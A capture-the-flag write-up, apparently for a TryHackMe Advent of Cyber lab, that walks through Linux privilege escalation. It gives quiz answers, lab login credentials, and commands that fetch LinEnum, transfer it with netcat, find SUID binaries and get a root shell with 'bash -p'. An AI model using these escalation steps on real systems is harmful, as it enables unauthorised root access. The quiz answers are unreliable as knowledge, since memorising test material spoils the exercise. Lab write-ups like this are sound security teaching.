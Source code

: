 # The Rogue Gnome

Before we begin, we're going to need to deploy two Instances:

	1. The THM AttackBox by pressing the "Start AttackBox" button at the top-right of the page.
	2. The vulnerable Instance attached to this task by pressing the "Deploy" button at the top-right of this task/day.

- What type of privilege escalation involves using a user account to execute commands as an administrator?

	- `vertical`

- What is the name of the file that contains a list of users who are a part of the sudo group?


	- `sudoers`

- Use SSH to log in to the vulnerable machine like so: ssh cmnatic@MACHINE_IP
Input the following password when prompted: aoc2020

	no answer needed

- Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of GTFObins and your researching skills to learn how to exploit this binary.
You may find uploading some of the enumeration scripts that were used during today's task to be useful.

	no answer needed

	- On your machine `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
	- `nc -lvnp 4444 < linEnum.sh`
	- On target `nc -w 3 <YOUR_IP> 4444 > linEnum.sh`
	- On target `chmod +x && ./linEnum.sh`
	- We can see there is `/bin/bash`. Good.
	- This could be done also with `find / -perm -u=s -type f 2>/dev/null`
	- On target `bash -p`
	- `cat /root/flag.txt`

- Use this executable to launch a system shell as root.
What are the contents of the file located at /root/flag.txt?

	- `thm{*****************}`

